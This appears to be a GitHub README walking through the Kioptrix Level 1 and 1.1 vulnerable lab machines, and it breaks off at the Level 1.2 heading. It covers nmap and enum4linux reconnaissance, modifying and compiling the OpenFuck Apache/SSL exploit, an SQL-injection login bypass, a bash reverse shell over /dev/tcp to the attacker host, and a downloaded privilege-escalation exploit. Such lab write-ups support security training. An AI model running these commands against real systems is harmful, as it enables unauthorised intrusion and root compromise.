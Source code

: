 # kioptrix-full-walkthrough
<h1>Kioptrix Level 1</h1>

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.
>sudo netdiscover -i eth0

![image](https://user-images.githubusercontent.com/31168741/199799872-1a04ded4-b40c-4cae-b085-f970aee67bd2.png)

Note: Found out by the mac address.

Step 3:
Run nmap scan on the machine IP that we found.

>sudo nmap -sS -A -p- <i><b>[machine-ip]</b></i> -T4

![image](https://user-images.githubusercontent.com/31168741/199800031-894a8f69-a2f0-4585-8d1f-84a3fceba8c4.png)
![image](https://user-images.githubusercontent.com/31168741/199800056-715a15f8-f636-40f8-801f-0a477a7fef28.png)
nmap result as found above!

Step 4:
Running some other tools to enumerate as much information as possible from the machine.

>enum4linux <i><b>[machine-ip]</b></i>

>dirb http://<i><b>[machine-ip]</b></i>

Step 5:
Now we browse for available exploits.

As shown in the output, the target system is using a very outdated Apache web server version 1.3.20. We Google for “apache 1.3.20 vulnerability”.

Search for the exploit via searchsploit
> searchsploit OpenFuck

![image](https://user-images.githubusercontent.com/31168741/199801410-e466b70b-3dce-477a-8ceb-eea0ec90c4aa.png)

<h2>Modify the exploit code:</h2>

Simply make a copy of the <b>764.c</b> exploit and put it somewhere to check it out and make changes to it (because the ‘off-the-shell’ code over there is pretty outdated)

> cp /usr/share/exploitdb/exploits/unix/remote/764.c OpenFuck.c

Here, we need to make some modification to the code before compiling it. Can be done using any text editor such as nano or vim.

> vim OpenFuck.c

Below are the list of changes which are needed to be made to the <b>OpenFuck.c</b> code,

<b>Include the openssl rc4 and md5 libraries:</b>

>#include <openssl/rc4.h>

>#include <openssl/md5.h>

Modify the <b>‘wget’</b> method in the exploit itself because the url does not exist anymore. we need to update it to become the new URL to download the file.
Search for <b>‘wget’</b> in the exploit, and then replace the URL to <b>http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c</b>

<b>Install Libraries for compiling the modified exploit code:</b>

> apt-get install libssl-dev

> gcc -o OpenFuck OpenFuck.c -lcrypto

Running the exploit,

>./OpenFuck 0x6b <i><b>[machine-ip]</b></i> 443 -c 40

![image](https://user-images.githubusercontent.com/31168741/199802750-a1c211c4-c945-4549-bc19-98446b53831b.png)

It worked!

<h1>Kioptrix Level 1.1(2)</h1>

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.

>sudo netdiscover -i eth0

![image](https://user-images.githubusercontent.com/31168741/199806037-13dfd40c-2bd7-4bd4-b3bf-6792315bb16b.png)

Step 3:
Run nmap scan on the machine IP that we found.

>sudo nmap -sS -A -p- <i><b>[machine-ip]</b></i> -T4

![image](https://user-images.githubusercontent.com/31168741/199806144-1718d44e-5564-429a-8f5e-58d748009ca2.png)

Step 4:
Let’s take a deeper dive by inspecting what lies in the open port i.e. <i><b>[machine-ip]</b></i>:80

![image](https://user-images.githubusercontent.com/31168741/199806234-c60c90b3-8521-469f-99b3-da5d9e2a0486.png)

Whoa! A login form. From the nmap scan, we notice the web application is using unauthorized mysql. This is vulnerable to SQLi. It turns out the authentication can be bypassed by using the following payload in the username field:

![image](https://user-images.githubusercontent.com/31168741/199806285-5834b923-b39b-4cb1-b2cf-9411302889bf.png)

But we need a shell to operate more flexibly.

![image](https://user-images.githubusercontent.com/31168741/199806351-02b40ddb-6bdf-40a1-a4ee-c683b919f39d.png)

![image](https://user-images.githubusercontent.com/31168741/199806383-709bfcfa-928e-49b6-b1fc-032eacd73d21.png)

So, we setup a listener and using a BASH reverse shell to connect to the listener:

>bash -i >& /dev/tcp/<i><b>[host-ip]</b></i>/1234 0>&1 (host machine)

![image](https://user-images.githubusercontent.com/31168741/199806457-c234670e-b98c-4e34-a371-d713d3d11328.png)

We are into the shell! We look around for more info.

![image](https://user-images.githubusercontent.com/31168741/199806517-f0a4fc1d-17db-4f9d-b62d-46e0f8d2f0a6.png)

![image](https://user-images.githubusercontent.com/31168741/199806565-fba7cafa-d421-4b98-9f6f-fffa2ffb736a.png)

Step 5:
Looking out for available exploits regarding the version privilege escalation.

![image](https://user-images.githubusercontent.com/31168741/199806647-16bb2db6-10e1-43ec-8ed1-1d9c67b52842.png)

We find one and download the exploit.

![image](https://user-images.githubusercontent.com/31168741/199806720-0134067b-2762-48ca-b830-ee4d28153eb8.png)

Step 6:
Running a python server in the host machine so that we can copy the exploit to the target machine.

![image](https://user-images.githubusercontent.com/31168741/199806805-4fb64c04-ee75-4a27-a721-e9ef97397e13.png)

Transferring the exploit to the target machine using the Python web server and wget:

![image](https://user-images.githubusercontent.com/31168741/199806868-7bcfbb84-a83c-41ad-9573-34c9027566ce.png)

It’s copied. (We are downloading basically!)

Step 7:
Compiling the exploit using GCC, allocating execute permissions to it and executing it:

![image](https://user-images.githubusercontent.com/31168741/199806960-7773eaf1-1689-47b7-859b-95f29d6f672e.png)

Now we are in the root!

<h1>Kioptrix Level 1.2(3)</h1>
